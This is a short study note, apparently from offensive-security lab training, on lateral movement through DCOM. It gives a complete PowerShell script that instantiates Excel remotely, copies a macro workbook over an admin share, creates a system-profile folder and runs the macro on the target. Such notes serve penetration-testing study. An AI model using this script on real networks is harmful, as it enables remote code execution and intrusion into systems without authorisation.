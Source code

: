 ```yaml
---
title: DCOM
date: M02-18-2023
author: i4
---
```

- RPC over TCP (135/TCP)
- Allows lateral movement through the office suite.
- Needs local admin on the target machine

## Enumeration DCOM functionalities
- Allows the execution of VBA code remotely [[macros]]
- Save workbook as legacy (Excel 97-2003 Workbook) format
```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "172.16.151.5"))
$com | gm 
> Run                                  Method                Variant Run (Variant, Variant, Variant, Variant, Variant,...
```

1. Copy the excel with macro to the remote computer (Can also be hosted on SMB)
	- `[System.IO.File]::Copy($local,$remote,$true)`
 2. Open the document through dcom
	- `$com.Workbooks.Open([path to the workbook])`
	- This will fail with an COMException since the SYSTEM account does not have a profile.
		- `[system.io.directory]::createDirectory("\\[server]\C$\Windows\sysWOW64\config\systemprofile\Desktop")`
 3. Execute macro
	- `$com.Run("macroname")`
### Full Attack
```
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "172.16.151.5"))
$LocalPath = "C:\Users\offsec.CLIENT251\Desktop\Book1.xls"
$RemotePath = "\\172.16.151.5\c$\myexcel.xls"
[System.IO.File]::Copy($LocalPath, $RemotePath, $True)
$Path = "\\172.16.151.5\c$\Windows\sysWOW64\config\systemprofile\Desktop"
$temp = [system.io.directory]::createDirectory($Path)
$Workbook = $com.Workbooks.Open("C:\myexcel.xls")
$com.Run("blah")
```